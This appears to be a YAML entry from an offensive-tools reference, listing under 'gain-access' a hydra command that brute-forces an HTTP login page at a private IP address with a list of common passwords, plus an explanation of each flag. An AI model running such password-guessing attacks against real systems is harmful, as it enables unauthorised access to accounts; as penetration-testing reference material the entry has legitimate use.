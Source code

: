 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /logon.php
        
        -l --> username
        -L --> username list
        -p --> password
        -P --> password list
        -f --> target
        -t --> threads
        -s --> port
        http-get --> method
        /logon.php --> login path
---
```

